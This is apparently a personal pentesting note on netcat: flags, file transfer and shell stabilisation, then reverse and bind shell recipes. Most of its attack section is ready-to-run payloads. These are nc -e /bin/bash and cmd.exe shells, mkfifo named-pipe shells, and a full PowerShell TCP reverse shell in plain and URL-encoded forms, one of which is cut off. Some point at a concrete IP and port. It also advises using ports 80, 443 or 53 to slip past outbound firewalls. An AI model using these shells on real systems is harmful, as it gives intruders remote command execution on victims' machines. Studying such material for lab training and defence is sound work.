 ```yaml
---
{"dg-publish":true,"permalink":"/notes/netcat/"}
---
```


- "Swiss Army Knife" of networking.
- Perform all kinds of network interactions.
- Support [[TCP\|TCP]] and [[UDP\|UDP]]
- Used to receive reverse shells and connect to remote ports attached to bind shells on a target system.
- If you choose to use a **port below 1024**, you will need to use `sudo` when starting your listener.
- It's **good idea** to **use** a **well-known** port number (**80, 443 or 53** being good choices) as this is more likely to get **past** outbound **firewall rules** on the target.

| Command   | Description                                                                        |
| --------- | ---------------------------------------------------------------------------------- |
| `-l`      | is used to tell netcat that this will be a listener                                |
| `-n`      | tells netcat not to resolve host names or use DNS. avoid DNS lookups and warnings. |
| `-v`      | is used to request a verbose output                                                |
| `-p`      | indicates that the port specification will follow.                                 |
| `-vv`     | Very Verbose (optional)                                                            |
| `-k`      | Keep listening after client disconnects                                            |
| `-w SECS` | Timeout for connects and final net reads                                           |
# Transfer files
1. On the destination machine
```shell
nc -lp 1234 > file.txt
```
2. On the source machine
```shell
nc -w 3 IP_destination 1234 < file.txt
```

# Shell stabilization
## Technique 1: Python
1. Uses Python to spawn a better featured bash shell;
```sh
python3 -c 'import pty;pty.spawn("/bin/bash")'
```
some targets may need replace `python` with `python2` or `python3`
2. access to term commands such as `clear`.
```sh
export TERM=xterm
```
3. Background the shell using Ctrl + Z.
```sh
stty raw -echo; fg
```
This does two things: 
- First, it **turns off our own terminal echo** (which gives us access to tab autocompletes, the arrow keys, and Ctrl + C to kill processes).
- then **foregrounds the shell,** thus completing the process.
- Note that **if the shell dies,** any input in your own terminal will **not be visible** (as a result of having disabled terminal echo). To **fix this, type** `reset` and press enter.
## Technique 2: rlwrap
- Rlwrap is a program which, in simple terms, gives us **access to history**, **tab autocompletion** and the **arrow keys** immediately upon receiving a shell
``` sh
rlwrap nc -lnvp <port>
```
- particularly useful when dealing with Windows shells
- On Linux target, it's possible to completely stabilise,
- using Ctrl + Z.
```sh
stty raw -echo; fg
```
## Technique 3: [[socat\|Socat]]
## Technique 4: [[Notes/SSH\|SSH]]

## Extra 
<div class="transclusion internal-embed is-loaded"><div class="markdown-embed">



- On my machine to get info from stty
```sh
stty -a
```
- Next, in your reverse/bind shell, type in:
`stty rows <number>`  
and
`stty cols <number>`


</div></div>


# Reverse shell
## On the target
### nc basic bash
#### Linux
```sh
nc <LOCAL-IP> <PORT> -e /bin/bash
```
**On Windows** this technique will **work perfectly**, where a static binary is nearly always required
#### Windows
**Command Prompt**
```sh
nc 10.10.38.232 443 -e “cmd.exe”
```
powershell
```sh
nc 10.10.38.232 443 -e “powershell.exe”
> ```

this is **not included in most versions of netcat** as it is widely seen to be very insecure **so**:
### Create a [[named pipe\|named pipe]]
```sh
mkfifo /tmp/f; nc <LOCAL-IP> <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f
```
### Powershell reverse shell
It can then be copied into a cmd.exe shell (or another method of executing commands on a Windows server, such as a **webshell**)
```sh
powershell -c "$client = New-Object System.Net.Sockets.TCPClient('**<ip>**',**<port>**);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

```sh
powershell+-c+"$client+%3d+New-Object+System.Net.Sockets.TCPClient('10.13.41.201',4747)%3b$stream+%3d+$client.GetStream()%3b[byte[]]$bytes+%3d+0..65535|%25{0}%3bwhile(($i+%3d+$stream.Read($bytes,+0,+$bytes.Length))+-ne+0){%3b$data+%3d+(New-Object+-TypeName+System.Text.ASCIIEncoding).GetString($bytes,0,+$i)%3b$sendback+%3d+(iex+$data+2>%261+|+Out-String+)%3b$sendback2+%3d+$sendback+%2b+'PS+'+%2b+(pwd).Path+%2b+'>+'%3b$sendbyte+%3d+([text.encoding]%3a%3aASCII).GetBytes($sendback2)%3b$stream.Write($sendbyte,0,$sendbyte.Length)%3b$stream.Flush()}%3b$client.Close()"
```

```sh
powershell%20-c%20%22%24client%20%3D%20New-Object%20System.Net.Sockets.TCPClient%28%27<IP>%27%2C<PORT>%29%3B%24stream%20%3D%20%24client.GetStream%28%29%3B%5Bbyte%5B%5D%5D%24bytes%20%3D%200..65535%7C%25%7B0%7D%3Bwhile%28%28%24i%20%3D%20%24stream.Read%28%24bytes%2C%200%2C%20%24bytes.Length%29%29%20-ne%200%29%7B%3B%24data%20%3D%20%28New-Object%20-TypeName%20System.Text.ASCIIEncoding%29.GetString%28%24bytes%2C0%2C%20%24i%29%3B%24sendback%20%3D%20%28iex%20%24data%202%3E%261%20%7C%20Out-String%20%29%3B%24sendback2%20%3D%20%24sendback%20%2B%20%27PS%20%27%20%2B%20%28pwd%29.Path%20%2B%20%27%3E%20%27%3B%24sendbyte%20%3D%20%28%5Btext.encoding%5
```
## On the attacker
65535 total number of ports
To open tcp/udp in a host, assosiate a shell to a port, force UDP/TCP conexions
port 30000
```bash
nc localhost 4747
```

ncat has more options like encrypt with ssl
``` bash
ncat --ssl 127.0.0.1 30001
```
### Listener revershell
Start a listener using rlwrap to try to simulate an interactive console
``` sh
rlwrap nc -lnvp 4747
```
# Bind shell
## On the target(listener)
```bash
nc -lnvp <port> -e /bin/bash
```

On Linux, however, we would instead use this code to create a listener for a bind shell:
[[named pipe\|named pipe]]
```sh
mkfifo /tmp/f; nc -lvnp <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f
```

Or get a cmd on windows
```sh
nc -lvnp <port> -e "cmd.exe"
```
## On the attacker
```bash
nc <target-ip> <chosen-port>
```
